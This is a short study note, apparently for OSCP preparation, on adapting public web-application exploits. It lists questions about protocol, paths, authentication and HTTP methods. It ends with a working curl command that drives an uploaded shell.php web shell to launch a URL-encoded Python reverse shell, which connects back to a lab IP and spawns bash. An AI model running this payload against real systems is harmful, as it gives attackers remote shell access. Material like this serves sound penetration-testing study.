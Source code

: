 ```yaml
---
aliases: Fixing Web Application Exploits
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - web_app
  - web_application
  - fix_exploits
author: Mehdi N Tehrani
creat_date: 2023-12-29
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# Considerations

- Does it initiate an *HTTP* or *HTTPS* connection?
- Does it access a specific *web application path or route*?
- Does the exploit leverage a *pre-authentication vulnerability*?
- If not, how does the exploit *authenticate* to the web application?
- *HTTP methods*: How are the GET or POST requests crafted to trigger and exploit the vulnerability? Is there any HTTP method involved?
- Does it rely on *default application settings* (such as the web path of the application) that may have been changed after installation?
- Will oddities such as *self-signed certificates* disrupt the exploit?

#python #revshell #reverse_shell #url_encoded
```
curl -s "http://192.168.246.52/cmsms/uploads/shell.php?cmd=python3+-c+'import+socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.216\",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/bash\")'"
```

